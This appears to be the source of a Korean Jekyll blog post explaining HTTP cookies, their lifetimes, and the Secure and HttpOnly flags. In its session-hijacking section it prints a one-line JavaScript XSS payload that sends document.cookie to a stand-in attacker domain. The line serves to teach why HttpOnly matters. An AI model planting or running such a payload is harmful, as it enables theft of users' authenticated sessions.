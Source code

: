 ```yaml
---
layout: post
title: "쿠키(cookie)"
subtitle: ""
comments: true
categories : HTTP
date: 2022-07-20
background: '/img/posts/06.jpg'
---
```


# 소개
Cookie에 대해서 공부하는데 MDN을 출처로 하여 [적은 글](https://velog.io/@mokyoungg/HTTP-%EC%BF%A0%ED%82%A4Cookie){:target="_blank"}을 보게 됐습니다.
FE 관련된 공부를 할 때 항상 MDN을 참고하지만 내용이 너무 많기도 하고 번역이 어색한 부분도 있어 보기가 어려웠는데 해당 글을 보면서 많은 도움을 받았습니다.
Cookie의 개념을 잡을 수 있는 좋은 글인 것 같아 참고 하여 작성합니다.

## HTTP 쿠키란 무엇인가
서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 조각이라고 할 수 있습니다.
실제로 개발자 도구 > Application > Cookies를 보시면 Name/value로 매핑된 쿠키의 리스트를 확인 하실 수 있습니다.
브라우저는 이 데이터 조각들을 저장했다가 동일한 서버에서 재요청이 들어 오면 저장된 데이터를 함께 전송합니다.
쿠키는 요청이 동일한 브라우저에서 들어왔는지 아닌지를 판단할 때 주로 사용됩니다.
상태가 없는(statelss) HTTP 프로토콜에서 상태 정보를 기억시켜주기 때문입니다.
과거에는 클라이언트 측에 정보를 저장할 때 쿠키를 주로 사용했습니다.
지금은 modern storage APIs(localStorage/sessionStorage)를 사용해 정보를 저장하는 걸 권장합니다.(IndexedDB도 권장)
모든 요청마다 쿠키가 함께 전송되기 때문에 성능이 떨어지는 원인이 될 수도 있습니다.
하지만 쿠키는 아직도 정말 많이 사용되기 때문에 반드시 알고 있어야할 필요가 있습니다.

## 쿠키의 목적
- 세션 관리(Session management) : 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization) : 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking) : 사용자 행동을 기록하고 분석하는 용도

## 쿠키의 라이프 타임
- session 쿠키 : 현재 세션이 끝날 때 삭제된다. 브라우저는 '현재 세션'이 끝나는 시점을 정의합니다.(물론 브라우저 재시작시 세션을 복원해 세션 쿠키를 무기한 존재할 수 있도록 하는 방법도 있습니다.)
- persistent 쿠키 : Expires 속성에 명시된 날짜에 삭제되거나, Max-Age 속성에 명시된 기간 이후에 삭제된다.
```
Expires 속성의 예시
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

## Secure와 HttpOnly 쿠키
Secure 쿠키는 HTTPS 프로토콜 상에서 암호화된 요청일 경우에만 전송됩니다.
하지만 Secure 일지라도 민감한 정보는 절대 쿠키에 저장하면 안됩니다.
본질적으로 안전하지 않고 이 값이 보안을 제공하는게 아니기 때문입니다. 쉽게 말하면 그냥 열람할 수 있는 정보입니다.
Cross-site 스크립팅(XSS) 공격을 방지하기 위해 사용되는 HttpOnly 쿠키는 Javascript의 document.cookie API에 접근할 수 없습니다.
```
Secure HttpOnly
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

## document.cookie를 사용한 자바스크립트 접근
새로운 쿠키들은 document.cookie를 사용해 만들어질 수도 있으며, HttpOnly플래그가 설정되지 않은 경우 자바스크립트로 부터 접근될 수 있습니다.
즉 HttpOnly 플래그가 없으면 자바스크립트도 쿠키를 제어할 수 있다는 의미 입니다.

## 세션 하이재킹과 XSS
쿠키는 대개 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용됩니다.
그래서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다.
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 쿠키 속성은 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 막을 수 있는 최소한의 장치 입니다.

 

## 참고
- [쿠키(Cookie)](https://velog.io/@mokyoungg/HTTP-%EC%BF%A0%ED%82%A4Cookie)


--- 

{% highlight ruby linenos %}
{% endhighlight %}

{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
